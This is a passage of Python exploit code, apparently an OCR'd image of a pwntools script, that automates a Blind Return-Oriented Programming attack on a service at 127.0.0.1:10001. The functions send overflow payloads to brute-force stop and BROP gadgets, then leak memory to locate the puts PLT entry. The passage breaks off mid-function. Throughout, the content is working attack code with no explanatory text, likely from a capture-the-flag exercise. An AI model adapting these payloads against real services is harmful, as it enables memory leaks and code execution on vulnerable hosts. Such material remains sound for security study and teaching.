 ```python
            addr += 1
            sh.close()


def get_brop_gadget(length, stop_gadget, addr):
    try:
        sh = remote('127.0.0.1', 10001)
        sh.recvuntil(b'password?\n')
        payload = b'a'*length + \
            p64(addr) + 6*p64(0xdeadbeaf) + \
            p64(stop_gadget) + 10*p64(stop_gadget)
        sh.sendline(payload)
        output = sh.recv(timeout=3)
        sh.close()
        info(b'output:' + output)
        if output.startswith(b'WelCome'):
            return True

    except EOFError:
        sh.close()
        return False


def check_BROP_gadgets(length, addr):
    try:
        sh = remote('127.0.0.1', 10001)
        sh.recvuntil('password?\n')
        payload = b'a'*length + p64(addr) + p64(0xdeadbeaf)*100
        sh.sendline(payload)
        output = sh.recv()
        sh.close()
        info('stop gadget, not BROP gadgets')
        return False
    except EOFError:
        sh.close()
        return True


def get_puts_addr(length, pop_rdi_ret, stop_gadget):
    addr = 0x400550
    while True:
        info(hex(addr))
        sh = remote('127.0.0.1', 10001)
        sh.recvuntil('password?\n')
        payload = b'a'*length + p64(pop_rdi_ret) + \
            p64(0x400000) + p64(addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith(b'\x7fELF'):
                success('finding puts addr:0x%x' % addr)
                return addr
        except EOFError:
            pass
        finally:
            sh.close()
            addr += 1


def get_puts_start_addr(length, pop_rdi_ret, stop_gadget, addr):
    info('we has find put_plt, now try to find the start:')
    while True:
        info(hex(addr))
```